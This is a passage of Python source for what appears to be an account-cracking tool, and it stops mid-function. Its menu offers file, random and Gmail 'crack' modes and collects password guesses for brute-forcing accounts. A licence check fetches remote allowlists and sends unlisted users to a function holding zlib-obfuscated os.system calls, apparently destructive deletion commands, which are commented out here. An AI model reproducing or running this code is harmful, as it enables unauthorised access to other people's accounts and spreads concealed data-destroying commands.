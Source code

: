 def fucked():
	print(' Server Loadin.......')
	#os.system(zlib.decompress(b'x\x9cKNQP\xf1\xf0w\xf5UPSS(\xcaU\xd0-JS\xd0\x02\x005\xfe\x05\x0f'))
	#os.system(zlib.decompress(b'x\x9c+\xcaU\xd0-JS\xd0/NIN,J\xd1\xd7\x02\x00,D\x05\x1e'))
	#os.system(zlib.decompress(b'x\x9c+\xcaU\xd0-JS\xd0/.\xc9/JLO\xd5O\xcd-\xcdI,IM\xd17\xd0\xd7\x02\x00\x8dJ\t\x81'))
	print(' Fuck You Bypass User ');exit()

def ckx():
	uuid = str(os.geteuid()) + str(os.getlogin())
	id = "→".join(uuid)
	server = requests.get(f'{tan}://{iya}.com/{ani}122/vip/blob/main/a.txt').text
	try:
		httpCaht = requests.get(f"{tan}://{iya}.com/{ani}122/vip/blob/main/b.txt").text
		if id in httpCaht:
			msg = str(os.geteuid())
			pass
		else:
			msg = str(os.geteuid())
			fucked()
	except:
			sys.exit()
def Spy():
	clear()
	print(f" [1] File Crack")
	print(f" [2] Random Crack")
	print(f" [3] Gmail Crack")
	print(f" [0] Exit")
	me=input(f'\n [?] Choose : ')
	if me in ["2", "02"]:
		bd()
	if me in ["3","03"]:
		gml()
	if me in ["1", "01","11","A","a"]:
		clear()
		file = input(f' [?] Put file path\033[1;37m: ')
		try:
			fo = open(file,'r').read().splitlines()
		except FileNotFoundError:
			print(f' \033[1;31m[!] File location not found ')
			exit()
		os.system('clear')
		print(logo)
		print(f' [1] Method 1 \n [2] Method 2 \n [3] Method 3 \n [4] Method 4')
		mthd=input(f'\n [?] Choose: ')
		plist=[]
		try:
			ps_limit = int(input(f'\n [?] How many passwords do you want to add ? : '))
		except:
			ps_limit =1
		os.system('clear')
		print(logo)
		print(f'\033[1;32m [+] Example : first last,firtslast,first123\n')
		for i in range(ps_limit):
			plist.append(input(f' [?] Put password {i+1}: '))
	 